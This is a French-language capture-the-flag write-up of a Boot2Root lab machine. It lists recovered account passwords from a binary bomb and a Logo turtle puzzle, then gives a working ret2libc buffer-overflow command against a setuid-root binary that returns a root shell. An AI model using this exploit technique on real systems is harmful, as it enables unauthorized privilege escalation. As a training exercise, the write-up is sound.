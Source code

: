 # Branch #1

Note : Pour accéder à cette branche, suivre le writeup #0 (Branche commune) regroupant la partie Boot2ssh

## laurie : Bombe

Le code décompilé traduit en C de la bombe est accessible dans le fichier pseudo_code.c, veuillez vous y referer et suivre les instructions en commentaire pour passer cette partie.
Seulement la phase6 a été crackée en utilisant ghydra, le reste à été traduit de l'assembleur en C à la main.

Mot de passe du compte `thor` : 
```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

## thor : Turtle

Via une breve recherche sur google ("language turtle", étant donné le nom étonnant du fichier), je suis redirigé vers le language Logo dont turtle fait reférence.
Un interpreteur Logo est disponible ici : http://lwh.free.fr/pages/prog/logo/logo.htm
Le fichier turtle se conclut également par le message `Can you digest the message? :)`, sous entendant la necessité de hasher le mot de passe reçu (via un des algos de hash du type md5, sha2, etc)

Je remplace les commandes afin de les adapter en Logo directement via Notepad++ :
```
Avance n spaces => AV n
Tourne gauche de n degrees => TG n
Tourne droite de n degrees => TD n
Recule n spaces => RE n
```
L'execution dans l'interpreteur Logo écrit `SLASH` dans un style assez... particulier.
Afin de se connecter sur le compte `zaz`, on test differents hash et le `md5` passe.

Le mot de passe du compte `zaz` est donc :
```
646da671ca01bb5d84dbb5fb2238dc8e
```

## zaz : Exploit_me

On a ici un executable `exploit_me` ainsi qu'un dossier `mail`.
Si c'est si gentillement demandé. :)
Au désassemblage (`objdump -d -M intel exploit_me | less`), on remarque un executable enfin de compte assez léger, sans cependant aucune fonction générant un shell.
Ce programme verifie si argv[1] est supérieur à 1, puis effectue un strcpy avec argv[1] et un offset 0x4 d'une pile de 0x90 octets, soit un buffer de 140 caracteres (0x8c).
Via `ls -la` je m'aperçut que le binaire à les droits de `root`.
Un grand `Waaaaaa` façon Waluigi me vient donc en tête.
Une technique magique DOIT ici être utilisée.
RET
2
LIBC
(Ou shellcode pour les stagiaires à Station F)
```
(gdb) print &system
$1 = (<text variable, no debug info> *) 0xb7e6b060 <system>
(gdb) find &system, +9999999, "/bin/sh"
0xb7f8cc58
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c "print 'A' * 140 + '\x60\xb0\xe6\xb7' + 'LIDL' + '\x58\xcc\xf8\xb7'")
# whoami
root
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```
L'euid (uid effectif) est bien de 0, on est bien rooute, gg wp